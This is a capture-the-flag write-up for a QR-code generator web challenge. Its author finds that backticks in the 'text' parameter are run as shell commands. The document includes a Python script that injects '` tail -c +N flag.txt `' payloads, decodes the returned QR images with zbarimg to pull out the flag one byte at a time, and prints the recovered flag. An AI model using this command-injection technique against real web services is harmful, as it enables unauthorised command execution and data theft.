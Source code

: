 # QR Generator

Website is simple: we input, it goes to a url and uses it to generate a QR code of what we input. Sadly, only the first character of what we input gets QR coded. More on this later.

I decided to cut out the middle man and go straight to `/qr?text=<insert text here>` for ease. I found when putting backticks inside of the text it errored.

A little research tells you that backticks are used for shells within a shell in php and bash. So there's probably some horribly filtered system or eval commands going on there that allow us to execute code using `<command>`. 

We find that the output of the command is actually stored in the qr code! Hazzah! cat flag.txt it is!

Except...

It still only takes the first character.

I wrote a nice little script that uses tail to grab bytes of the flag at different positions, automating the qr code scan using zbarimg. 

##### Note: I knew it must be in the cat flag.txt because
* It didn't error like some other commands did
* The first two characters were rt, so I took a wild guess.

```python
import requests, os, re
flag = ''
def urlencode(text):
    output = ''
    for char in text:
        output += '%' + hex(ord(char))[2:].upper()
    return output
i = 1
while '}' not in flag:
    try:
        payload = f"` tail -c +{i} flag.txt `"
        enc = urlencode(payload)
        url = "http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=" + enc
        os.system(f"wget {url} -O temp.png")
        char = os.popen("zbarimg temp.png").read().split('\n')[0]
        realchar = re.findall("QR-Code:(.*)", char)[0]
        flag += realchar
    except:
        print(flag)
        quit()
    finally:
        i += 1
print("FLAG ACQUIRED!")
print(flag)
```

#### rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}
